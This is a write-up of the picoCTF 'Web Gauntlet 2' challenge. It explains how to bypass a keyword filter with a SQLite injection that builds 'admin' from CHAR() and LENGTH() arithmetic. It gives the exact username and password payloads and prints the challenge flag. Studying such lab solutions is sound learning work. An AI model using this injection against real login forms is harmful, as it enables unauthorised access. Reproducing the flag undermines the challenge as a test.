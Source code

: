 # Web Gauntlet 2 ❓
Tags: Web Exploitation<br>
Point: 200<br>
AUTHOR: MADSTACKS<br>
Description:<br>
This website looks familiar... <br>
Log in as admin Site: http://mercury.picoctf.net:26215/ <br>
Filter: http://mercury.picoctf.net:26215/filter.php<br>

Hints:
- I tried to make it a little bit less contrived since the mini competition.
- Each filter is separated by a space. Spaces are not filtered.
- There is only 1 round this time, when you beat it the flag will be in filter.php.
- There is a length component now.
- sqlite


## Write-up: 📝
Compared to first **Web Gauntlet". This challenge only have 1 round but more difficult.

## Solution: 💯

Filter: `or and true false union like = > < ; -- /* */ admin`

In this chall, we try to create an injection in **username** which should cover and ignore the **password**. We use concatenation `||` to create string `admin` in **username**
. We try to combine with password to generate the character in `admin` string. 

Our payload look like this: `SELECT username, password FROM users where username='admi'||{n}`

We get the `'n'` character by `CHAR()` function and specify the exact number we need in [Ascii Table](https://www.asciitable.com/) ('n' is equivalent to **110** in decimal). We take an advantage of `LENGTH()` function to control the value. And now we will calculate: The must-have string is ` AND password=` has 14 characters. We need **110** so it ought to be multiplied by **7** and add by **12**. 

The actual query string is below: `SELECT * FROM users where username='admi'||(CHAR(12+LENGTH(' AND password=')*7))||'' `

**Note:** This chall requires the sum of length of username and password **< 35**. In some case if our payload's size is too large, we should  decrease it by omitting redundant characters in **password** or instead of string, we should move to calculate with number. 
**Note:** May be  using **division operator** (In this case is `1540/LENGTH(' AND password=')` for more easy calculations.

User: `admi'||(CHAR(12+LENGTH(`
Pass: `)*7))||'`

Then move to **filter.php** file to get the flag.

#### The Flag (for reference): ✔️
```
picoCTF{0n3_m0r3_t1m3_fc0f841ee8e0d3e1f479f1a01a617ebb}
```

